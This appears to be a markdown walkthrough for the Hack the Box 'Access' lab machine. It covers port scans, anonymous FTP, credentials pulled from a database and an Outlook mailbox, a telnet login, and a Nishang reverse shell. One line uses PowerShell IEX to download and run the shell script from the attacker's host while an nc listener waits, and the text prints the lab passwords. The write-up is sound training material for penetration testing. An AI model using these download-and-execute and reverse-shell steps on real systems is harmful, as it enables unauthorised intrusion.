 # Hack the Box - Access

```CSS
Machine IP: 10.10.10.98 - Windows
```

- [NMAP: All TCP ports](#nmap-open-ports)
- [NMAP: Open ports Service Version](#nmap-service-version)
- [FTP Anonymous Login](#ftp-login)
  - [Download Files](#ftp-downloads)
- [Telnet Anonymous Login](#telnet-anonymous-login)
- [Website](#webserver)

## NMAP Open Ports
```CSS
▶ nmap -Pn -sS -p- 10.10.10.98 -T4 --min-rate 5000 -oN nmap.surface

Nmap scan report for 10.10.10.98
Host is up (0.19s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.68 seconds
```

## NMAP Service Version
```CSS
▶ nmap -sC -sV -p 21,23,80 10.10.10.98 -T4 --min-rate 5000 -oN nmap.deep

Nmap scan report for 10.10.10.98
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.59 seconds
```

---

## Telnet Anonymous Login
  - Telent log in failed.
```CSS
▶ telnet 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231275176-f81e52d6-3975-497a-b375-17f4cc9eb3e2.png)

---

## Website
![image](https://user-images.githubusercontent.com/83878909/231276321-d9810c39-9ac9-4c59-b50d-0f7a296ede38.png)

---

## FTP Login
  - Log in to ftp, anonymous login allowed. 
```CSS
▶ ftp 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231272883-d87603cc-e9b5-461c-a670-5c36226f6a57.png)

### FTP Downloads
  - Download all directories and files found in FTP.
```CSS
▶ wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231274006-305f40e6-8efc-4af0-8f4c-6e85319bab51.png)

### ZIP File
  - Access File
```CSS
▶ 7z x Access\ Control.zip
```
![image](https://user-images.githubusercontent.com/83878909/233909981-8b6ad107-b1cf-4ad8-87f8-fc00f663bc5b.png)

  - Technical Information
```CSS
▶ 7z l -slt Access\ Control.zip
```
![image](https://user-images.githubusercontent.com/83878909/233909126-48769505-adde-4982-beaf-2fe1635970f4.png)


### MBD File
  - Look into the file
```CSS
▶ strings backup.mdb
```
![image](https://user-images.githubusercontent.com/83878909/233927444-536ae3fa-9377-4efd-b6ac-783b4b7df837.png)

  - Extract Information
```CSS
▶ mdb-tables backup.mdb | grep --color=auto user
```
![image](https://user-images.githubusercontent.com/83878909/233927978-8404a46f-e088-4f4c-8d8c-5e6638269cbc.png)
```CSS
▶ mdb-export backup.mdb auth_user
```
![image](https://user-images.githubusercontent.com/83878909/233928307-60dc1282-0923-472e-a148-cdb5bedba4ea.png)

### Extract ZIP File Contents
```CSS
▶ 7z x Access\ Control.zip
```
```CSS
password: access4u@security
```
![image](https://user-images.githubusercontent.com/83878909/233932586-4b1e138c-13d7-4197-81ac-46189c7cd293.png)

---

### PST File
  - Check the file.
```CSS
▶ file Access\ Control.pst
```
File Type: Microsoft Outlook Personal Storage

  - Convert `.pst` file to `.mbox` file.
```CSS
▶ readpst Access\ Control.pst
```
![image](https://user-images.githubusercontent.com/83878909/233936965-6d6ef291-91dd-4cd2-b153-8d1101af60b6.png)

  - Read emails
```CSS
▶ less Access\ Control.mbox
```
![image](https://user-images.githubusercontent.com/83878909/233937943-92fb0eed-9159-4d42-9f28-8807dc589fa5.png)
```CSS
Username: security
Password: 4Cc3ssC0ntr0ller
```

---

## Telnet Login
  - Login using found credentials.
```CSS 
▶ telnet 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/233939322-189c0e45-6083-4a2f-bed0-05bd8100d025.png)

---

### Shell Upgrade
#### Nishang
  - Modify and upload `nishang` TCP shell.
  - `/opt/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1`.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/aabac44e-4472-4b19-8361-484e3da4546a)

The script should look like:
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ecc6375d-aa15-4a90-85ee-29593524ee66)
```CSS

```

#### Upload & Execute
```CSS
▶ python -m http.server
```
```CSS
▶ nc -nlvvp 4444
```
```CSS
C:\Users\security\Desktop>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24:8000/Invoke-PowerShellTcpOneLine.ps1')"
```


#### winPEAS
  - Upload `winPEASx64.exe`.
```CSS
▶ 
```
